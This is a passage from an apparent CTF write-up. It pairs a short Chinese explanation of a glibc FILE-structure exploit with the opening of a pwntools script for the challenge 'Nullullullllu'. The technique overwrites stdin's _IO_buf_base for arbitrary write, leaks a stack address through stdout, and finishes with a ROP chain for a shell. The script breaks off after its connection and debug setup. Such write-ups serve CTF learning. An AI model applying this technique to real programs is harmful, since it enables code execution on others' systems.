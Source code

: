 ## Pwn

改stdin结构体中的_IO_buf_base最后一位为\x00，能够在_IO_buf_base-0x20处开始读入0x64字节，控制_IO_buf_end 和_IO_buf_base能够任意地址写，改stdout泄露栈地址，写返回地址为rop，getshell

### Nullullullllu

```
#!/bin/python3

from pwn import *

def init(mode:list, ip:str, gdbs:str):
    if mode[0] == "debug":
        context.log_level = 'debug'
        context.timeout = 30000
    else:
        context.log_level = 'info'
        context.timeout = 300

    context.os = 'linux'

    if mode[1] == 64:
        context.arch = 'amd64'
    else:
        context.arch = 'i386'

    elf = libc = None

    try:
        elf = ELF("./pwn")
        libc = elf.libc
    except FileNotFoundError:
        info("elf not found")
        exit()

    if mode[0] == "attack":
        if ip:
            if ":" in ip:
                ip = ip.split(":")
            else: ip = ip.split(" ")
            c = remote(ip[0], int(ip[1]))
        else:
            c = process(["./pwn"])
    else:
        c = gdb.debug(["./pwn", ""], gdbscript=gdbs)

    return c, elf, libc

ip = "ctf2024-entry.r3kapig.com:31886"
mode = ["debug", 64]
mode = ["attack", 64]

gdbs = '''
    b * $rebase(0x12d6)
    set follow-fork-mode child
    c
'''

c, elf, libc = init(mode, ip, gdbs)
#gdb.attach(c, gdbs)
context.log_level = 'debug'
def cmd(cc : str):
```